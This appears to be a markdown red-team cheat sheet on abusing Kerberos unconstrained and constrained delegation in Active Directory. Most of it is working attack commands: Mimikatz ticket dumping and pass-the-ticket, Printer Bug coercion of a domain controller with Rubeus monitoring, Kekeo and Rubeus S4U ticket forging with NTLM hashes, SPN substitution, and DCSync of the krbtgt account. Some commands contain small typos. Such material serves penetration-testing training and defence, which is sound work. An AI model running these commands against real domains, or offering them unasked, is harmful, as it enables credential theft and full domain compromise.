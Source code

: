 Kerberos Delegation allows the reuse of end-user credentials to access resources hosted on a different server. This is typically useful in tiered environments where a kerberos double hop is necessary.

Example: a web server and a seperate database server, users authenticate to the web server and the web server makes requests to a database server. The web server can request access to resources (all or some resources depending on the type of delegation) on the database server as the user and not as the web server's service account

The service account for web service must be trusted for delegation to be able to make requests as a user


Steps for Delegation


1. A user provides credentials to the DC
2. The DC returns A TGT
3. The user requests a TGS for the web service on the Web Server
4. The DC provides a TGS
5. The user sends the TGT and the TGS to the web server, due to delegation the TGT of the user is embedded in the TGS
6. The web server service account uses the user's TGT to request a TGS for the database server from the DC
7. The web server service account connects to the database server as the user



There are two basic types of kerberos delegation. In both types of delegations a mechanism is required to impersonate the incoming user and authenticate to the second hop server as the user.

- Unconstrained Delegation which allows the first hop server to request access to any service on any computer on the domain
- Constrained Delegation which allows the first hop server to request access only to specified services on specified computers. If the user is not using Kerberos Authentication to authenticate to the first hop server, Windows offers Protocol transition to transition the request to Kerberos


## Unconstrained Delegation

When set for a paticular service account, unconstrained delegation allows delegation to any service to any resource on the domain as a user. When unconstrained delegation is enabled, the DC places the user's TGT inside the TGS. When presented to the server with unconstrained delegation the TGT is extracted from TGS and stored in LSASS. This way the server can reuse the user's TGT to access any othe resource as the user. This could be used to escalate privileges in the the computer with unconstrained delegation is compromised. 

Check for unconstrained delegation

```powershell
#The DC will always return as unconstrained, ignore this
#Discover domain computers which have unconstrained delegation enabled usingPowerView:
Get-NetComputer -UnConstrained


#Using ActiveDirectorymodule:
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}


#Check for a connection from a certain user
Invoke-UserHunter -ComputerName appsrv -Poll 100 -Username Administrator -Delay 5 -Verbose
```


Compromise servers where this is enabled.

```powershell
#Run following command on it to check if any DA token is available:
Invoke-Mimikatz -Command '"sekurlsa::tickets"'


#We must trick or wait for a domain admin to connect a service on appsrv.
#Now, if the command is run again:
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'


#The DA token could be reused:
Invoke-Mimikatz -Command '"kerberos::ptt C:\Users\appadmin\Documents\user1\[0;2ceb8b3]-2-0-60a10000-Administrator@krbtgt-abc.example.LOCAL.kirbi"' 
```

#### Printer Bug

A feature of MS-RPRN which allows any domain user (Authenticated User) to force any machine that is running the spooler service to connect to a second machine of the domain user's choice. We can force the dc to connect to appsrv by abusing the Printer Bug.


```powershell
#We can capture the TGT of dc$ by using Rubeus (https://github.com/GhostPack/Rubeus) on appsrv:
.\Rubeus.exe monitor /interval:5 /nowrap


#And after that run MS-RPRN.exe (https://github.com/leechristensen/SpoolSample) on any machine in the domain:
.\MS-RPRN.exe \\dc.abc.example.local  \\appsrv.abc.example.local 


#Copy the base64 encoded TGT, remove extra spaces (if any) and use it on any machine:
.\Rubeus.exe ptt /ticket:


#Once the ticket is injected, run DCSync:
Invoke-Mimikatz -Command '"lsadump::dcsync /user:example\krbtgt"
```

## Constrained Delegation

When enabled on a service account, allows access only to specified  services on specified computers as a user. A typical scenario where constrained delegation is used - A user authenticates to a web service without using Kerberos and the web service makes requests to a database server to fetch results based on the user's authorization. To impersonate the user, Service for User (S4U) extension is used which provides two extensions:

- Service for User to Self (S4U2self) - allows a service to obtain a forwardable TGS to itself on behalf of a user with just the prinicipal name without supplying a password. The service account must have the TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION - T2A4D UserAccountControl Attribute
- Service for User to Proxy (S4U2proxy) - allows a service to obtain a TGS to a second service on behalf of a user. Which service is controlled by msDS-AllowedToDelegeateTo attribute. This attribute contains a list of SPNs which the user tokens can be forwarded


Example with protocol transition
1. A user, Joe, authenticates to the web service (running with service account websvc) using a non-kerberos compatible authentication mechanism
2. The web service requests a ticket from the KDC for Joe's account without supplying a password, as the websvc account
3. The KDC checks the websvc UserAccountControl value for the TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION (T2A4D) attribute, and that Joe's account is not blocked for delegation. If ok it returns a forwardable ticket for Joe's account (S4U2self)
4. The service then passes this ticket back to the KDC and requests a service ticket for the CIFS/mssql.abc.example.local service
5. The KDC checks the msDS-AllowedToDelegateTo field on the websvc account. If the service is listed it will return a service ticket for mssql (S4U2proxy)
6. The web service can now authenticate to CIFS on mssql as Joe using the supplied TGS

To abuse delegation here we need to have access to an account that has TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION attribute. If we have access to that account, it is possible to access the services listed in msDS-AllowedToDelegateTo as ANY user


Abuse constrained delegation with Invoke-Mimikatz

```powershell
#Enumerate users and computers with constrained delegation enabled
#Using PowerView(dev)
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth


#Using ActiveDirectorymodule:
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo


#Either plaintext password or NTLM hash is required. 
#We already have access to websvc'shash from adminsrv
#Using asktgt from Kekeo, we request a TGT (steps 2 & 3 in the diagram):
tgt::ask /user:websvc /domain:abc.example.local /rc4:cc098f204c5887eaa8253e7c2749156f 


#Using s4u from Kekeo, we request a TGS (steps 4 & 5):
tgs::s4u /tgt:TGT_websvc@abc.example.LOCAL_krbtgt~abc.example.local@abc.example.LOCAL.kirbi /user:Administrator@abc.example.local /service:cifs /mssql.abc.example.LOCAL


#Using mimikatz, inject the ticket:
Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@abc.example.local@abc.example.LOCAL_cifs~mssql.abc.example.LOCAL@abc.example.LOCAL.kirbi"'

ls\\mssql.abc.example.local\c$
```


Abuse constrained delegation with Rubeus

```powershell
#This will request a TGS and TGT in a single command
.\Rubeus.exe s4u /user:websvc /rc4:cc098f204c5887eaa8253e7c2749156f /impersonateuser:Administrator /msdsspn:"CIFS/mssql.abc.example.LOCAL" /ptt

ls \\mssql.abc.example.local\c$
```


Another interesting issue in Kerberos is that the delegation occurs not only for the specified service but for any service running under the same account. There is no validation for the SPN specified. This is huge as it allows access to many interesting services when the delegation may be for a non-intrusive service


Using Kekeo
```powershell
#Either plaintext password or NTLM hash is required. 
#If we have access to adminsrvhash•Using asktgtfrom Kekeo, we request a TGT:
tgt::ask /user:adminsrv$ /domain:abc.example.local /rc4:1fadb1b13edbc5a61cbdc389e6f34c67


#Using s4u from Kekeo_one(no SNAME validation):
tgs::s4u /tgt:TGT_adminsrv$@abc.example.LOCAL_krbtgt~abc.example.local@abc.example.LOCAL.kirbi /user:Administrator@abc.example.local /service:time /dc.abc.example.LOCAL|ldap/dc.abc.example.LOCAL
```

Using Mimikatz
```powershell
Invoke-Mimikatz-Command '"kerberos::ptt TGS_Administrator@abc.example.local@abc.example.LOCAL_ldap~dc.abc.example.LOCAL@abc.example.LOCAL_ALT.kirbi"'

Invoke-Mimikatz-Command '"lsadump::dcsync /user:example\krbtgt"' 
```

Using Rubeus
```powershell
#request TGT and TGS in one command
.\Rubeus.exe s4u /user:adminsrv$ /rc4:1fadb1b13edbc5a61cbdc389e6f34c67 /impersonateuser:Administrator /msdsspn:"time/dc.abc.example.LOCAL" /altservice:ldap /ptt


#After injection, we can run DCSync:
Invoke-Mimikatz -Command '"lsadump::dcsync /user:example\krbtgt"' 
```